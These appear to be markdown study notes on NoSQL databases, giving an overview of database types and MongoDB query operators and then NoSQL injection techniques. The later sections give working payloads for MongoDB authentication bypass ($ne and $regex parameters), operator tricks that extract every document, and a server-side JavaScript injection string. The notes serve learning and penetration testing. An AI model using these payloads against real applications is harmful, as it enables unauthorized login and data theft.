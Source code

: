 ___
SQL but without tables. MongoDB is most popular. 
more common, with `MongoDB` now being the [5th most used](https://db-engines.com/en/ranking) database engine (as of November 2022).
The way `NoSQL` databases store data varies significantly across the different categories and implementations.

| Type                       | Description                                                                                                                                                        | Top 3 Engines (as of November 2022)                                                                                                                                                |
| -------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------ | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Document-Oriented Database | Stores data in `documents` which contain pairs of `fields` and `values`. These documents are typically encoded in formats such as `JSON` or `XML`.                 | [MongoDB](https://www.mongodb.com/), [Amazon DynamoDB](https://aws.amazon.com/dynamodb/), [Google Firebase - Cloud Firestore](https://firebase.google.com/products/firestore/)     |
| Key-Value Database         | A data structure that stores data in `key:value` pairs, also known as a `dictionary`.                                                                              | [Redis](https://redis.io/), [Amazon DynamoDB](https://aws.amazon.com/dynamodb/), [Azure Cosmos DB](https://azure.microsoft.com/en-us/products/cosmos-db/)                          |
| Wide-Column Store          | Used for storing enormous amounts of data in `tables`, `rows`, and `columns` like a relational database, but with the ability to handle more ambiguous data types. | [Apache Cassandra](https://cassandra.apache.org/_/index.html), [Apache HBase](https://hbase.apache.org/), [Azure Cosmos DB](https://azure.microsoft.com/en-us/products/cosmos-db/) |
| Graph Database             | Stores data in `nodes` and uses `edges` to define relationships.                                                                                                   | [Neo4j](https://neo4j.com/), [Azure Cosmos DB](https://azure.microsoft.com/en-us/products/cosmos-db/), [Virtuoso](https://virtuoso.openlinksw.com/)                                |

## MongoDB
___
MongoDB Usage cheatsheet: https://www.mongodb.com/developer/products/mongodb/cheat-sheet/#connect-mongodb-shell

Mongo uses query operators to interact and compare fields. Here are some examples:
[query operators](https://www.mongodb.com/docs/manual/reference/operator/query/).

| Type       | Operator | Description                                                               | Example                                      |
| ---------- | -------- | ------------------------------------------------------------------------- | -------------------------------------------- |
| Comparison | `$eq`    | Matches values which are `equal to` a specified value                     | `type: {$eq: "Pink Lady"}`                   |
| Comparison | `$gt`    | Matches values which are `greater than` a specified value                 | `price: {$gt: 0.30}`                         |
| Comparison | `$gte`   | Matches values which are `greater than or equal to` a specified value     | `price: {$gte: 0.50}`                        |
| Comparison | `$in`    | Matches values which exist `in the specified array`                       | `type: {$in: ["Granny Smith", "Pink Lady"]}` |
| Comparison | `$lt`    | Matches values which are `less than` a specified value                    | `price: {$lt: 0.60}`                         |
| Logical    | `$not`   | Matches documents which `do not meet the conditions` of a specified query | `type: {$not: {$eq: "Granny Smith"}}`        |
| Evaluation | `$regex` | Matches values which `match a specified RegEx`                            | `type: {$regex: /^G.*/}`                     |

### Basic Injection Example
---
**Auth Bypass**
Normal data:
```
email=test@test.com&password=test
```
Becomes:
```
email[$ne]=test@test.com&password[$ne]=test
```
![](../../assets/Pasted%20image%2020250629152540.png)
This will evaluate to TRUE (unless the values actually exist) and bypass auth.
OR match anything and always eval to true:
```
email[$regex]=.*&password[$regex]=.*
```
**Data Extraction**
Ways can match ALL data from an injection point and return it:
- `name: {$ne: 'doesntExist'}`: Assuming `doesntExist` doesn't match any documents' names, this will match all documents.
- `name: {$gt: ''}`: This matches all documents whose name is 'bigger' than an empty string.
- `name: {$gte: ''}`: This matches all documents whose name is 'bigger or equal to' an empty string.
- `name: {$lt: '~'}`: This compares the first character of `name` to a Tilde character and matches if it is 'less'. This will not always work, but it works in this case because Tilde is the [largest printable ASCII value](https://www.asciitable.com/), and we know that all names in the collection are composed of ASCII characters.
- `name: {$lte: '~'}`: Same logic as above, except it additionally matches documents whose names start with `~`.

### Server-Side JavaScript Injection
---
Execute arbitrary JavaScript in the context of the database.
**Auth bypass**
![](../../assets/Pasted%20image%2020250629153121.png)
we could set `username` to `" || true || ""=="`, which should result in the query statement always returning `True`, regardless of what `this.username` and `this.password` are.
![](../../assets/Pasted%20image%2020250629153156.png)
